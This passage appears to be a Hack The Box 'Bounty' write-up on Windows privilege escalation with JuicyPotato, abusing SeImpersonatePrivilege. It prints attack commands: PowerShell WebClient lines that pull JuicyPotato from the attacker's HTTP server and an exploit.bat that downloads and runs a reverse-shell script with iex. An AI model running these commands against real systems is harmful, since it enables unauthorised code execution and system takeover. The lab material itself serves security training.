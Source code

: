 It seems that `SeImpersonatePrivilege` is enabled. 

Googling for `seimpersonateprivilege exploit` resulted in this [article](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505).

Now lets craft our plan.

-   Download `JuicyPotato.exe` on local machine.
-   Host on local server.
-   Download and execute `JuicyPotato.exe` from netcat listener.

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
10.10.10.93 - - [08/Jul/2022 22:38:35] "GET /JuicyPotato.exe HTTP/1.1" 200 -


- Netcat listener -
PS C:\windows\system32\inetsrv>cd c:\users\merlin\desktop
PS C:\users\merlin\desktop> (new-object net.webclient).downloadfile('http://10.10.14.23:6969/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')
```

According to the JuicyPotato GitHub repository, here is how we can use the executable.

```bash
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

From what I understand, we can write a `.bat` program to for JuicyPotato to launch after executing.

So lets write a simple powershell script that downloads a reverse shell from our local server.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# cat exploit.bat                         
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.23:6969/revshell2.ps1')
```
